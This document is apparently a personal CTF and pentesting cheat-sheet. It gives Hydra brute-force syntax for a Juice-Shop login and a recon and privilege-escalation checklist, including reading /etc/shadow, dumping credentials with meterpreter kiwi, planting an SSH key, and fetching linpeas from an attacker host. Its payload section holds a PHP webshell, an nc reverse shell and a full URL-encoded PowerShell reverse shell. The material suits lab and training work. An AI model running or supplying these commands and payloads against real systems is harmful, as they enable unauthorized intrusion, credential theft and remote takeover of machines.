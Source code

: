 # InfoSec notes

## Hydra

### HTTP Post

Example: Brute-force `admin` login of the OWASP Juice-Shop

Authentication `POST` request looked like this in Browser DevTools

```shell
curl 'http://10.10.114.54/rest/user/login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.114.54/' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Cookie: io=5yIoLc2JuE6AcrUbAAAA; language=en; cookieconsent_status=dismiss' --data-raw '{"email":"hello@example.com","password":"asdf"}'
```

with response 401 `Invalid email or password.`

This converts to `hydra` as follows

```bash
# -V verbose
# `-l admin@juice-sh.op` the admin's email
hydra -v -V -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 10.10.114.54 http-post "/rest/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Invalid email or password."

# general layout (note: single user -l vs user list -L, same for password)
#  hydra -L <USER> -P <Password> <IP Address> http-post “<Login Endpoint>:<Request Body>:<Error Message>”
```

## Feroxbuster

`feroxbuster -u http://10.10.80.188 --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt`

## Tools for cracking RSA

- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)

## Share files with Kali VM

[gofile](https://gofile.io/uploadFiles)

## GPG

```bash
gpg --import private.key
gpg --decrypt encrypted.file > plain.txt
```

## Hash cracking

```bash
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python3 hash-id.py < HASH_FILE

gzip -d /usr/share/wordlists/rockyou.txt.gz
# Note: standard hash types might have prefix `raw-` e.g. format=raw-md5
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=FORMAT HASH_FILE

john --list=formats | grep -i md5
```

## Resources

- [spawning a TTY shell in many languages](https://netsec.ws/?p=337)
- [unix binaries to bypass security](https://gtfobins.github.io/#+sudo)
- [file endings in linux](https://lauraliparulo.altervista.org/most-common-linux-file-extensions/)
- [pentestlab.blog privesc](https://pentestlab.blog/category/privilege-escalation/)
- [gtfobins](https://gtfobins.github.io/#)

## Recon + Privilege Escalation

In CTFs there is rarely any negative consequence, so going into full offensive is fine.

### external

- open/filtered ports
- services on ports
- find HTTP endpoints

```bash
# portscan + service detection
nmap -A -sV -p- $IP
# alternative with Metasploit
msfdb init
msfconsole
db_nmap -A -sv -p- $IP

# HTTP endpoints
curl $IP/robots.txt
feroxbuster -u http://10.10.80.188 --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
```

### internal

i.e. after getting a shell on the target

- stabilize shell
  - `whoami`
  - add attacker's ssh key to `authorized_keys`
- system infos
- current sudo privileges
- services + processes
- service + package versions
- usernames + credentials
- files with SUID or SGID
- cronjobs

What we're looking for:

- root access
- credentials
- further vulnerabilities (with the ultimate goal of root access)

```bash
# system infos
hostnamectl
# alternative:
uname -a

# own permissions
sudo --list

# services + processes
less ~/.bash_history # also bashprofile, bashrc, bash_aliases
ps -ef

# versions
sudo -V
apt list --installed

# usernames + credentials
less /etc/passwd
less /etc/shadow
# with metasploit meterpreter
load kiwi
creds_all

# check for known vulnerabilities
searchsploit <systeminfo / services>

# backups, configs, logs
find / -type f -name '*.log' 2>/dev/null
find / -type f -name '*.bak' 2>/dev/null
find / -type f -name '*.conf' 2>/dev/null
# if everything fails to find the flag, search all file contents
find / -type f -exec cat {} \; | grep -E 'thm{'
find / -type f -perm -u=s 2>/dev/null

# cronjobs
cat /etc/crontab

# swiss-army knife
# on attacker machine
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python3 -m http.server 8000
# on target machine
wget ${ATTACKER_IP}:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

## swiss-army knife 2 - LinEnum.sh
# analog to linpeas.sh
```

## Payloads

### PHP

#### Webshell

upload file to the server

`echo '<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>' > php-webshell.php`

#### Linux

**reverse shell**
`http://<RHOST>/uploads/php-webshell.php?cmd=nc <LHOST> <LPORT> -e /bin/bash`

#### Windows

**reverse shell**
exchange `LPORT`, `LHOST`, `RHOST`

```http
http://RHOST/uploads/php-webshell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<LHOST>%27%2C<LPORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

### RDP Remote Desktop Protocol

`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.1.202 /u:Administrator /p:'password'`
Note: it takes a while (~5min) on the VMs to initialize RDP
